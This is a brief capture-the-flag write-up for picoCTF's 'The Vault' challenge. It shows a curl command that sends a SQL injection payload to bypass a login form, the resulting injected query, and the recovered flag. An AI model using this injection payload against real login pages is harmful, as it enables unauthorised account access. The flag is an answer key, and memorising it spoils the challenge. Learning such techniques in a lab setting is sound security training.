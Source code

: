 # The Vault - Points: 250 - (Solves: 734)

There is a website running at http://2018shell2.picoctf.com:22430 (link).
Try to see if you can login!

---

```sh
% curl -d 'debug=1' -d 'username=admin' -d "password=' or '1'<>'0" http://2018shell2.picoctf.com:22430/login.php
<pre>username: admin
password: ' or '1'&lt;&gt;'0
SQL query: SELECT 1 FROM users WHERE name='admin' AND password='' or '1'&lt;&gt;'0'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{w3lc0m3_t0_th3_vau1t_06857925}</p>%
```

picoCTF{w3lc0m3_t0_th3_vau1t_06857925}
